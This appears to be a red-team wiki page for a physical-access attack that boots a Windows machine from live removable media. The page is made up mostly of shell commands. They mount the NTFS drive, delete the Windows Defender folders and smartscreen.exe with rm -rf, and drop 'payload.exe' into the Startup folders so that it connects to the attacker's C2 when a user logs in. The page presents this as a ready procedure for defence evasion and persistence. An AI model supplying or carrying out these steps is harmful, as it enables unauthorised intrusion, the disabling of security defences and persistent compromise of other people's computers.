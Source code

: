 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - physical-pentesting
  - defense-evasion
  - maintaining-access
  - persistence
  - windows
  - linux
credits:
  - tokyoneon
---
```

# Live Removable Media

## 01 - Access The Boot Manager

When the system is booting it may prompt a specific keystroke to press by accessing the boot manager. If not depending on the vendor's motherboard, do a quick search of which keystroke to access the boot manager.

## 02 - Mount NTFS Drive

```
# fdisk -l

# mount -t ntfs /dev/sdX[n] /mnt/
```

## 03 - Disable Security Defenses (Optional)

### 3.1 - Windows Security

```
# find /mnt/ -type d -iname *Windows\ Defender*
```

Delete security endpoints.

```
# find /mnt/ -type d -iname *Windows\ Defender* -exec rm -rf {} \;
```

### 3.2 - Smartscreen

Delete `smartscreen.exe`.

```
# find /mnt/ -iname smartscreen.exe -exec rm -rf {} \;
```

### 3.3 - Third Party Endpoints

Refer to the **Wiki Backlinks** to bypass third party endpoints.

## 04 - Copy Payload to Startup

### 4.1 - All Users

```
# cp payload.exe "/mnt/<windows_volume_name>/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp/"
```

### 4.2 - Specific User

Enumerate the available users.

```
# ls /mnt
```

Then copy the payload to startup directory.

```
# cp payload.exe "/mnt/<windows_volume_name>/Users/<username>/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/"
```

## 05 - Unmount the NTFS Drive

After you've dropped the payload in the target's machine. Wait for the target to login to their machine to receive an established connection to your C2.

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Windows/Active Directory/0xA - Users/Manual/Living off the Land]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Windows/Host/0xA - Users/Manual/Living off the Land]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/04 - Security Endpoints/Windows/Microsoft/Endpoints/Living off the Land]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/04 - Security Endpoints/Windows/Third Party Endpoints/Living off the Land]]

### Null Byte

- [Null Byte: Hacking Windows 10 - How to Break into Somebody's Computer Without a Password (Exploiting the System)](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-break-into-somebodys-computer-without-password-exploiting-system-0183743)